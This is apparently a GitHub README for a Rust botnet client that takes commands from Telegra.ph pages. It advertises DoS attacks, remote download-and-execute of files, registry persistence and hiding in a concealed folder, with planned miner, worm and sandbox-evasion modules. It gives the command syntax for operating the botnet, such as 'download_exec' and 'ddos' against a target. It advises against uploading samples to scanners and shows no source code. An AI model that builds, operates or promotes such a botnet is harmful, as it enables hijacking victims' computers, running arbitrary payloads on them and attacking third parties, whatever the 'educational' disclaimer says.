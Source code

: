 # Rust Botnet
Example botnet client which uses Telegra.ph as C&C server.
__Warning:__ DO NOT upload any samples generated by this program to online scanners. 

## Features
* DoS attack feature.
* Loader & Executer of any files.
* Update feature.
* Program adds itself to autoload register and moves to hidden folder in C:/ drive root.
* Botnet deletion by command.

### In development
* Bruteforce module.
* Sandbox & Virtual machine detector.
* Admin notification about new client.
* Miner module.
* Worm module.
* C&C server link / commands encryption.
* New module-based core architecture.
* Show message box to client.
* Create builder for botnet
* User-friendly control panel (based on Electron.js)

Notice, that this is not production ready version. 
There are many bugs which are waiting to fix.

## Example & List of commands
Example of C&C server [here](https://telegra.ph/Cls93sog103ekfSfKTEsto294kfaozwkd394-rktkcsd-krfasseegpe11-03-20).
Botnet uses next syntax - `command{split}value` or `command{split}value{sep}value's_value`
### Available commands
* `download_exec{split}LINK_TO_FILE` - download and run file which is located at LINK_TO_FILE
* `ddos{split}TARGET{sep}TIME` - ddos TARGET for TIME seconds
* `upgrade{split}LINK_TO_FILE{sep}VERSION` - download and install botnet update which located at LINK_TO_FILE. Update will be installed only if botnet's file version is lower than VERSION
* `stop{split}` - you should use that command every time after executing other's ones
* `delete_botnet{split}` - delete botnet exe and it's registry notes from client's PC
* `exit{split}` - close botnet's executive file

## Help
If you need any help at all, feel free to post a issue.
 
## Contributing
Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer
This program must be used for educational purposes only!
I am not responsible for anything you do with it.

## License
This project is licensed under the MIT License - see the [LICENSE.md](https://github.com/Ookldev/rust_botnet/blob/master/LICENSE) file for details

P.S. Better use i686-pc-windows-msvc to compile it.
